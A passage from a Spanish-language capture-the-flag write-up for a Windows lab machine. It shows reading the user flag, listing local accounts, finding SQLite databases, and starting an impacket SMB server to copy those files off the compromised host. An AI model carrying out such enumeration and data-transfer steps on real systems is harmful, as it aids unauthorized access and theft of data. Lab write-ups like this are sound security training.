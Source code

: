 Podemos ver la flag del usuario.
```console
C:\Users\svc_exampanel\Desktop>type user.txt
type user.txt
11e36d712177...
```

## User Pivoting

Podemos ver otros usuarios en el sistema como `svc_meddigiportal`, `devdoc` y `svc_meddigi`
```console
User accounts for \\APPSANITY

-------------------------------------------------------------------------------
Administrator            DefaultAccount           devdoc                   
Guest                    svc_exampanel            svc_meddigi              
svc_meddigiportal        WDAGUtilityAccount       
The command completed successfully.

```

## Analyzing SQLite Databases (nothing)
En `C:\inetpub\Databases` encontramos un archivo `meddigi.db` y `examinfo.db`, podemos compartirnos estos ficheros en nuestra máquina para analizarlos.
```console
C:\inetpub\Databases>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is F854-971D

 Directory of C:\inetpub\Databases

09/12/2024  08:47 AM    <DIR>          .
09/12/2024  08:47 AM    <DIR>          ..
09/12/2024  08:47 AM            20,480 examinfo.db
09/24/2023  01:21 PM            32,768 meddigi.db
09/12/2024  08:35 AM            32,768 meddigi.db-shm
09/12/2024  08:35 AM                 0 meddigi.db-wal
               4 File(s)         86,016 bytes
               2 Dir(s)   3,961,602,048 bytes free

```

Podemos hacer esto sirviendo un servidor SMB.
```console
$ sudo impacket-smbserver -smb2support smbFolder .
```

Podemos comprobar que los dos archivos son bases de datos SQLite.
```console
$ file examinfo.db && file meddigi.db
examinfo.db: SQLite 3.x database, last written using SQLite version 3040001, writer version 2, read version 2, file counter 2, database pages 5, cookie 0x2, schema 4, UTF-8, version-valid-for 2
meddigi.db: SQLite 3.x database, last written using SQLite version 3040001, writer version 2, read version 2, file counter 2, database pages 8, cookie 0x5, schema 4, UTF-8, version-valid-for 2
```
